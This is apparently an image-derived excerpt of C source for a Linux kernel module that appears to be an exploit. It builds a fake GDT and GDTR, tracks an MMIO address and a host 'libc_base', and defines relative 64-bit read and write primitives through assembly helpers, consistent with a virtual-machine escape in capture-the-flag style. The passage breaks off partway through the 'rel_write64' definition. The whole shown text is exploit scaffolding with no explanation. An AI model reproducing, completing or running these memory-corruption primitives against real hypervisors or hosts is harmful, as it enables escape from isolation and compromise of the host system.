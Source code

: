 ```c
#include <linux/module.h>	/* Needed by all modules */
#include <linux/kernel.h>	/* Needed for KERN_INFO */

#include <linux/types.h>
#include <linux/delay.h>

#include <linux/vmalloc.h>
#include <asm/io.h>
#include <asm/msr.h>
#include <asm/desc.h>
#include <stdalign.h>

#include "offsets.h"

#define KERN_WARN KERN_WARNING

typedef struct gdtr {
    uint16_t limit;
    uint64_t base;
} __attribute__((packed, aligned(1))) gdtr_t;

typedef uint64_t gdt_entry;

gdtr_t fake_gdtr = {};
gdt_entry fake_gdts[0x100];

uint64_t mmio_addr = 0;
static uint64_t table_addr = 0;
static uint64_t libc_base = 0;

extern uint64_t read_table_asm(uint64_t idx, uint64_t mmio, uint64_t curr_gdtr, uint64_t fake_gdtr);
extern uint64_t write_table_asm(uint64_t idx, uint64_t mmio, uint64_t curr_gdtr, uint64_t fake_gdtr, uint64_t val);

__attribute__((always_inline))
static inline uint64_t read_table(uint64_t idx)
{
    uint64_t ret;
    gdtr_t curr_gdtr = {};
    uint64_t curr_gdtr_ptr = (uint64_t)&curr_gdtr;
    uint64_t fake_ptr = (uint64_t)&fake_gdtr;
    ret = read_table_asm(idx, mmio_addr, curr_gdtr_ptr, fake_ptr);
    return ret;
}

__attribute__((always_inline))
static inline void write_table(uint64_t val, uint64_t idx)
{
    gdtr_t curr_gdtr = {};
    uint64_t curr_gdtr_ptr = (uint64_t)&curr_gdtr;
    uint64_t fake_ptr = (uint64_t)&fake_gdtr;
    (void)write_table_asm(idx, mmio_addr, curr_gdtr_ptr, fake_ptr, val);
}

__attribute__((always_inline))
static inline uint64_t rel_read64(uint64_t offset)
{
    return read_table(offset / 8);
}

__attribute__((always_inline))
static inline void rel_write64(uint64_t offset, uint64_t val)
```